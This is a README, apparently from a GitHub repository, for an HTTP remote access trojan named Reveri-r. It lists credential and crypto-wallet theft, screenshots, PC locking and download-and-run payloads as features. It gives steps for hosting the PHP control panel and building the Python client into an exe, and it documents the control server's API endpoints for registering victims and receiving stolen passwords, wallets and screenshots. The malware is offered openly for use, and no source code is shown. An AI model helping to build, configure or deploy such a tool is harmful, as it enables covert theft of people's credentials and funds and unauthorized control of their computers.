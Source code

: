 
# Reveri-r HTTP RAT




## Features

- Download file & Run
- Get Screenshot
- Lock Pc
- Get Passwords & Wallet

## Usage

  ### Step 1
    - Upload rat folder to your host
    - Configure the database settings (cfg.php)
  ### Step 2  
    - Change the hostname string in pythonsource (main.py - line 1)
    - Convert to exe.

  
## API Usage


#### POST New PC

```http
  POST /api/reg.php
```

| Parametre | Tip     | Açıklama                |
| :-------- | :------- | :------------------------- |
| `actionID` | `string` | **Required**. API Key. |





#### Get Pc Data

```http
  POST /api/get.php
```

| Parametre | Tip     | Açıklama                |
| :-------- | :------- | :------------------------- |
| `actionID` | `string` | **Required**. API Key. |

#### POST Screenshot

```http
  POST /api/getss.php
```

| Parametre | Tip     | Açıklama                |
| :-------- | :------- | :------------------------- |
| `actionID` | `string` | **Required**. API Key. |
| `screenshot` | `string` | **Required**. File Link. |

```http
  POST /api/getss.php
```

| Parametre | Tip     | Açıklama                |
| :-------- | :------- | :------------------------- |
| `actionID` | `string` | **Required**. API Key. |
| `screenshot` | `string` | **Required**. File Link. |

#### POST Wallet & Password

```http
  POST /api/wp.php
```

| Parametre | Tip     | Açıklama                |
| :-------- | :------- | :------------------------- |
| `actionID` | `string` | **Required**. API Key. |
| `wallet` | `string` | **Required**. File Link. |
| `password` | `string` | **Required**. File Link. |

#### POST Download File & Run

```http
  POST /api/downloadLink.php
```

| Parametre | Tip     | Açıklama                |
| :-------- | :------- | :------------------------- |
| `id` | `string` | **Required**. API Key. |
| `externalDownload` | `string` | **Required**. File Link. |


## Screenshots

![ss](https://img001.prntscr.com/file/img001/q1JVCse-QWycOBl7xxpDTA.png)

![ss](https://img001.prntscr.com/file/img001/twZ5XNz1QZK-6N9TudJ7fg.png)

  

